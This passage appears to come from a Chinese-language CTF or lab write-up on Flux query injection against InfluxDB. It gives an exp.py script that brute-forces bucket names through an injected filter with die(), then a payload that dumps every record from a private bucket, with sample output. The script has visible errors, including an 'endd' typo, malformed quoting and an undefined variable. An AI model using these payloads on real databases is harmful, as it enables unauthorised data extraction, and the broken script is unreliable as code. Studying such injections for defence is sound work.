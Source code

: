 [![](assets/1706957940-f62bcc0dfd977658ec04d77f6d5d82bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233810-e74d1470-c117-1.png)

```plain
可以看见返回了`privateBucket`这个 bucket，这个地方可以用 burp 爆
```

exp.py:

```plain
import requests
import string
url = "https://127.0.0.1:3000?query="
para1= " ") |> yield(name: "1337") buckets() |> filter(fn: (r) => r.name =~ /^{}.*/ and die(msg:r.name)) //"
s=''+string.ascii_letters
flag = sensitive_field
for i in range(0,52):
    for j in s:
        try:
            htmlLen = requests.get(url=url+para1.format(j)).text
        except:
            print(j)
        if flag in htmlLen:
            print(htmlLen,endd='')
            break
//为了让你们更加直观的看见 playload，所以这里没有进行编码，所以可能在 para1 处会报错。
```

#### 泄露 bucket 及其相关数据

前面已经有 bucket 的名称了，所以就直接 from

```plain
") |> yield(name: "1337") 
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => die(msg:r)) 
 //
```

这里就是把`filter`中的`r`也就是匹配出来的所有东西都输出出来  
最终页面返回：

```plain
_value: B,
_time: time,
_stop: time,
_start: time,
_measurement: string,
_field: string
```
